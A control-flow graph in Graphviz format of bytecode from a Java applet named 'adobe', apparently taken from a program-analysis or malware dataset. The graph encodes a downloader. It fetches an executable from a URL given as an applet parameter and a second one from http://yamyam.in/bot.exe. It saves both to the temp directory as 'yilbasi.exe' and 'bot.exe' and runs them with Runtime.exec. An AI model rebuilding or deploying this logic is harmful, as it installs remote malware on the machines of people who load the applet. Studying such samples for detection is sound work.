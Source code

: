 digraph "" {
    "r0 := @this: adobe"
    "push \"java.io.tmpdir\""
    "r0 := @this: adobe"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r1"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"yilbasi.exe\""
    "load.r r1"->"push \"yilbasi.exe\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"yilbasi.exe\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r4"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r4";
    "store.r r4"->"load.r r1";
    "push \"bot.exe\""
    "load.r r1"->"push \"bot.exe\"";
    "push \"bot.exe\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r5"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r5";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r5"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r1";
    "virtualinvoke <java.io.PrintStream: void print(java.lang.String)>"
    "load.r r1"->"virtualinvoke <java.io.PrintStream: void print(java.lang.String)>";
    "new java.net.URL"
    "virtualinvoke <java.io.PrintStream: void print(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r0"
    "load.r r1"->"load.r r0";
    "push \"name\""
    "load.r r0"->"push \"name\"";
    "virtualinvoke <adobe: java.lang.String getParameter(java.lang.String)>"
    "push \"name\""->"virtualinvoke <adobe: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <adobe: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r1";
    "ifnonnull new java.io.BufferedOutputStream"
    "load.r r1"->"ifnonnull new java.io.BufferedOutputStream";
    "push 1"
    "ifnonnull new java.io.BufferedOutputStream"->"push 1";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 1"->"staticinvoke <java.lang.System: void exit(int)>";
    "new java.io.BufferedOutputStream"
    "staticinvoke <java.lang.System: void exit(int)>"->"new java.io.BufferedOutputStream";
    "store.r r0"
    "new java.io.BufferedOutputStream"->"store.r r0";
    "store.r r0"->"load.r r0";
    "new java.io.FileOutputStream"
    "load.r r0"->"new java.io.FileOutputStream";
    "dup1.r"
    "new java.io.FileOutputStream"->"dup1.r";
    "load.r r4"
    "dup1.r"->"load.r r4";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r4"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>"->"load.r r1";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "load.r r1"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r1";
    "push 1024"
    "store.r r1"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r31"
    "newarray"->"store.r r31";
    "store.r r31"->"load.r r1";
    "load.r r31"
    "load.r r1"->"load.r r31";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r31"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i $i1"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i $i1";
    "load.i $i1"
    "store.i $i1"->"load.i $i1";
    "push -1"
    "load.i $i1"->"push -1";
    "ifcmpeq.i load.r r0"
    "push -1"->"ifcmpeq.i load.r r0";
    "ifcmpeq.i load.r r0"->"load.r r0";
    "load.r r0"->"load.r r31";
    "push 0"
    "load.r r31"->"push 0";
    "push 0"->"load.i $i1";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"
    "load.i $i1"->"virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>";
    "goto load.r r1"
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"->"goto load.r r1";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"dosya hatas\u0131 1\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"dosya hatas\u0131 1\"";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "push \"dosya hatas\u0131 1\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"->"push 1";
    "push 1"->"staticinvoke <java.lang.System: void exit(int)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "staticinvoke <java.lang.System: void exit(int)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "pop"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"pop";
    "pop"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r4";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r4"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "push 5000L"
    "pop"->"push 5000L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 5000L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto new java.net.URL"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto new java.net.URL";
    "goto new java.net.URL"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"http://yamyam.in/bot.exe\""
    "dup1.r"->"push \"http://yamyam.in/bot.exe\"";
    "push \"http://yamyam.in/bot.exe\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"new java.io.BufferedOutputStream";
    "new java.io.BufferedOutputStream"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"dup1.r";
    "load.r r5"
    "dup1.r"->"load.r r5";
    "load.r r5"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r4";
    "store.r r4"->"push 1024";
    "push 1024"->"newarray";
    "newarray"->"store.r r1";
    "store.r r1"->"load.r r4";
    "load.r r4"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i r31"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i r31";
    "load.i r31"
    "store.i r31"->"load.i r31";
    "load.i r31"->"push -1";
    "push -1"->"ifcmpeq.i load.r r0";
    "ifcmpeq.i load.r r0"->"load.r r0";
    "load.r r0"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"load.i r31";
    "load.i r31"->"virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>";
    "goto load.r r4"
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"->"goto load.r r4";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"dosya hatas\u0131 2\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"dosya hatas\u0131 2\"";
    "push \"dosya hatas\u0131 2\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.lang.Exception: java.lang.StackTraceElement[] getStackTrace()>"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"virtualinvoke <java.lang.Exception: java.lang.StackTraceElement[] getStackTrace()>";
    "virtualinvoke <java.lang.Exception: java.lang.StackTraceElement[] getStackTrace()>"->"pop";
    "pop"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"pop";
    "pop"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"calistirma hatasi 2:\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"calistirma hatasi 2:\"";
    "push \"calistirma hatasi 2:\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.IOException: java.lang.StackTraceElement[] getStackTrace()>"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"virtualinvoke <java.io.IOException: java.lang.StackTraceElement[] getStackTrace()>";
    "virtualinvoke <java.io.IOException: java.lang.StackTraceElement[] getStackTrace()>"->"pop";
    "ifcmpeq.i load.r r0"->"load.r r0";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"
    "load.r r0"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"load.r r4";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r4"->"virtualinvoke <java.io.InputStream: void close()>";
    "goto staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.InputStream: void close()>"->"goto staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"\u00e7al\u0131\u015ft\u0131rma hatas\u0131 1\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"\u00e7al\u0131\u015ft\u0131rma hatas\u0131 1\"";
    "push \"\u00e7al\u0131\u015ft\u0131rma hatas\u0131 1\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"virtualinvoke <java.lang.Exception: java.lang.StackTraceElement[] getStackTrace()>";
    "virtualinvoke <java.lang.Exception: java.lang.StackTraceElement[] getStackTrace()>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.System: void exit(int)>";
    "ifcmpeq.i load.r r0"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"goto staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
}
